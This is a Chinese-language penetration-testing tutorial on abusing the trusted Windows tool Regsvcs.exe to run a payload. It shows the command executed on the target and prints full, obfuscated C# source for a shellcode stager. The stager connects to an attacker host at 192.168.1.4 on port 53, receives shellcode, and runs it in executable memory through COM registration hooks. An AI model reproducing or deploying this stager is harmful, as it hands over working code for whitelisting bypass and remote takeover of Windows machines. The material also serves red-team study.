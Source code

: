 ### 11.4 基于白名单Regsvcs.exe执行payload（四）

**Regsvcs简介：**

Regsvcs为.NET服务安装工具，主要提供三类服务：

    加载并注册程序集。
      
    生成、注册类型库并将其安装到指定的 COM+ 1.0 应用程序中。  
    
    配置以编程方式添加到类的服务。  
    
        

说明：Regsvcs.exe所在路径没有被系统添加PATH环境变量中，因此，Regsvcs命令无法识别。

**具体参考微软官方文档：**

    https://docs.microsoft.com/en-us/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool
    
        

**基于白名单Regsvcs.exe配置payload：**

Windows 7 默认位置：

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe
    
        

攻击机：192.168.1.4 Debian

靶机：192.168.1.3 Windows 7-
配置攻击机msf：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225817242.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

**靶机执行：**

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe Micropoor.dll
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225828215.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009225833377.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

附录：Micropoor.cs-
注：x86 payload

    using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;
    
    namespace phwUqeuTRSqn
    
    {
    
    public class mfBxqerbXgh : ServicedComponent { 
    
    public mfBxqerbXgh() { Console.WriteLine("Micropoor"); } 
    
    [ComRegisterFunction]
    
    public static void RegisterClass ( string DssjWsFMnwwXL )
    
    {
    
    uXsiCEXRzLNkI.BBNSohgZXGCaD();
    
    } 
    
    [ComUnregisterFunction]
    
    public static void UnRegisterClass ( string DssjWsFMnwwXL )
    
    {
    
     uXsiCEXRzLNkI.BBNSohgZXGCaD();
    
    }
    
    } 
    
    public class uXsiCEXRzLNkI
    
    { [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 pAyHWx, UInt32 KXNJUcPIUymFNbJ, UInt32 MotkftcMAIJRnW);
    
    [DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 yjmmncJHBrUu, UInt32 MYjktCDxYrlTs, UInt32 zyBAwQVBQbi);
    
    [DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 PorEiXBhZkA, byte[] UIkcqF, UInt32 wAXQEPCIVJQQb);
    
    [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 WNvQyYv, UInt32 vePRog, UInt32 Bwxjth, IntPtr ExkSdsTdwD, UInt32 KfNaMFOJVTSxbrR, ref UInt32 QEuyYka);
    
    [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pzymHg, UInt32 lReJrqjtOqvkXk);static byte[] SVMBrK(string MKwSjIxqTxxEO, int jVaXWRxcmw) {
    
    IPEndPoint hqbNYMZQr = new IPEndPoint(IPAddress.Parse(MKwSjIxqTxxEO), jVaXWRxcmw);
    
    Socket LbLgipot = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
    
    try { LbLgipot.Connect(hqbNYMZQr); }
    
    catch { return null;}
    
    byte[] VKQsLPgLmVdp = new byte[4];
    
    LbLgipot.Receive(VKQsLPgLmVdp, 4, 0);
    
    int jbQtneZFbvzK = BitConverter.ToInt32(VKQsLPgLmVdp, 0);
    
    byte[] cyDiPLJhiAQbw = new byte[jbQtneZFbvzK + 5];
    
    int vyPloXEDJoylLbj = 0;
    
    while (vyPloXEDJoylLbj < jbQtneZFbvzK)
    
     { vyPloXEDJoylLbj += LbLgipot.Receive(cyDiPLJhiAQbw, vyPloXEDJoylLbj + 5, (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) < 4096 ? (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) : 4096, 0);}
    
    byte[] MkHUcy = BitConverter.GetBytes((int)LbLgipot.Handle);
    
    Array.Copy(MkHUcy, 0, cyDiPLJhiAQbw, 1, 4); cyDiPLJhiAQbw[0] = 0xBF;
    
    return cyDiPLJhiAQbw;}
    
    static void ZFeAPdN(byte[] hjErkNfmkyBq) {
    
    if (hjErkNfmkyBq != null) {
    
    UInt32 xYfliOUgksPsv = HeapCreate(0x00040000, (UInt32)hjErkNfmkyBq.Length, 0);
    
    UInt32 eSiulXLtqQO = HeapAlloc(xYfliOUgksPsv, 0x00000008, (UInt32)hjErkNfmkyBq.Length);
    
    RtlMoveMemory(eSiulXLtqQO, hjErkNfmkyBq, (UInt32)hjErkNfmkyBq.Length);
    
    UInt32 NByrFgKjVjB = 0;
    
    IntPtr PsIqQCvc = CreateThread(0, 0, eSiulXLtqQO, IntPtr.Zero, 0, ref NByrFgKjVjB);
    
    WaitForSingleObject(PsIqQCvc, 0xFFFFFFFF);}} 
    
    public static void BBNSohgZXGCaD() {
    
    byte[] cyDiPLJhiAQbw = null; cyDiPLJhiAQbw = SVMBrK("192.168.1.4", 53);
    
    ZFeAPdN(cyDiPLJhiAQbw);
    
    } } }
    
        

* * *